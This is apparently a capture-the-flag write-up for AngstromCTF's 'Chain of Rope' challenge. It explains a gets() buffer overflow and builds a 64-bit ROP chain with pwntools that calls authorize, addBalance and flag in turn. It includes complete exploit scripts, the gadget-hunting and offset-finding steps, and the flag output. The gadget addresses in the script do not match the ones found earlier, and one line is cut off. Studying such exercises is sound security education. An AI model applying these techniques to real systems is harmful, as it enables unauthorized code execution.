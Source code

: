 ## AngstromCTF: Chain of Rope
> defund found out about this cool new dark web browser! While he was browsing the dark web he came across this service that sells rope chains on the black market, but they're super overpriced! He managed to get the source code. Can you get him a rope chain without paying?


##### *tl;dr: chaining rop gadgets*
#### Guessing from the challenge title itself, this challenge will be solved by chaining together rop gadgets found inside the binary to get the flag. For the exploit, it can be done the hard way or the much easier way. I'll discuss the hard way first to have an understading on how to perform a simple rop chain on a 64-bit binary. 
#### Since we have the source code, first thing to do is to examine it:
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int userToken = 0;
int balance = 0;

int authorize () {
	userToken = 0x1337;
	return 0;
}

int addBalance (int pin) {
	if (userToken == 0x1337 && pin == 0xdeadbeef) {
		balance = 0x4242;
	} else {
		printf("ACCESS DENIED\n");
	}
	return 0;
}

int flag (int pin, int secret) {
	if (userToken == 0x1337 && balance == 0x4242 && pin == 0xba5eba11 && secret == 0xbedabb1e) {
		printf("Authenticated to purchase rope chain, sending free flag along with purchase...\n");
		system("/bin/cat flag.txt");
	} else {
		printf("ACCESS DENIED\n");
	}
	return 0;
}

void getInfo () {
	printf("Token: 0x%x\nBalance: 0x%x\n", userToken, balance);
}

int main() {
	gid_t gid = getegid();
	setresgid(gid, gid, gid);
	char name [32];
	printf("--== ROPE CHAIN BLACK MARKET ==--\n");
	printf("LIMITED TIME OFFER: Sending free flag along with any purchase.\n");
	printf("What would you like to do?\n");
	printf("1 - Set name\n");
	printf("2 - Get user info\n");
	printf("3 - Grant access\n");
	int choice;
	scanf("%d\n", &choice);
	if (choice == 1) {
		gets(name);
	} else if (choice == 2) {
		getInfo();
	} else if (choice == 3) {
		printf("lmao no\n");
	} else {
		printf("I don't know what you're saying so get out of my black market\n");
	}
	return 0;
}
```
#### From what we can analyze from the code, the entry point for our exploit will be the vulnerable gets call for the name variable when selecting the first user choice then we can proceed to jump to any function we want. But we can't do that, since the function we really need to call, `flag`, has arguments that need to be checked first before it is executed. To do that, we need to jump to the necessary functions, in a particular order, to set the needed variables. So our chain will go something like: `buffer overflow - call authorize to set userToken - call addBalance and provide the pin argument - finally call flag with the needed arguments`
#### It won't be that easy tho, since unlike 32-bit binaries which place the arguments on the stack, 64-bit binaries place arguments on registers - here is where the need for rop gadgets pop in. 
```
$ ROPgadget --binary chain_of_rope
  [...]
  0x00000000004008f3 : pop rdi ; ret
  0x00000000004008f1 : pop rsi ; pop r15 ; ret
```
#### These are the rop gadgets that we need since the functions require two arguments at most and these arguments must be placed into the rdi and rsi registers. Before we proceed to make our exploit, we need to find which offset to control rip. 
```
$ gdb ./chain_of_rope
  gdb-peda$ pattern create 100
  [...]
  
  gdb-peda$ r
  --== ROPE CHAIN BLACK MARKET ==--
  LIMITED TIME OFFER: Sending free flag along with any purchase.
  What would you like to do?
  1 - Set name
  2 - Get user info
  3 - Grant access
  1
  AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL

  Program received signal SIGSEGV, Segmentation fault.
  [...]
  
  gdb-peda$ x/wx $rsp
  0x7fffffffddd8:	0x41416341
  
  gdb-peda$ pattern offset 0x41416341
  1094804289 found at offset: 56
```
#### And now that we have what we need, we'll now make the exploit. So what we'll need to do is to overflow the buffer and jump to the authorize function to set the userToken variable, next we use the pop rdi gadget for us to place the pin argument for addBalance into the rdi register, then we use the `pop rdi` and `pop rsi; pop r15` gadgets to place the pin and secret arguments for the flag function, then provide a dummy address for the program to return to (r15) and finally get the flag. Now to craft our exploit:
```python
from pwn import *

#: Connect to chall server
HOST = 'shell.actf.co'
PORT = 19400
binary = ELF('./chain_of_rope')
rop = ROP(binary)
# p = binary.process()
p = remote(HOST,PORT)
print(p.recv())

#: Exploit code
offset = 'A' * 56
authorize = binary.symbols['authorize']
addBalance = binary.symbols['addBalance']
flag = binary.symbols['flag']

#: Gadgets
pop_rdi = p64(0x401403)
pop_rsi = p64(0x401401)

#: Rop exploit v1
context.clear(arch='amd64')
rop.raw(offset)
rop.raw(p64(authorize))
rop.raw(pop_rdi)
rop.raw(p64(0xdeadbeef))
rop.raw(p64(addBalance))
rop.raw(pop_rdi)
rop.raw(p64(0xba5eba11))
rop.raw(pop_rsi)
rop.raw(p64(0xbedabb1e))
rop.raw(p64(0x0))
rop.raw(p64(flag))
exploit = rop.chain()

#: Send payload
p.sendline('1')
p.sendline(exploit)
p.interactive(
```
#### And there we have it. But we could also do this through a much simpler approach using rop.calls from pwntools. We only need to call the functions and provide their arguments, pwntools chains it for us. 
```python
#: ROP exploit v2
context.clear(arch='amd64')
rop.call(authorize)
rop.call(addBalance, [0xdeadbeef])
rop.call(flag, [0xba5eba11, 0xbedabb1e])
print(rop.dump())
exploit = offset + rop.chain()
```
#### Running our exploit script, we now get our flag! 
```
$ python exploit.py
--== ROPE CHAIN BLACK MARKET ==--
LIMITED TIME OFFER: Sending free flag along with any purchase.
What would you like to do?
1 - Set name
2 - Get user info
3 - Grant access

[*] Switching to interactive mode
Authenticated to purchase rope chain, sending free flag along with purchase...
actf{dark_web_bargains}
```
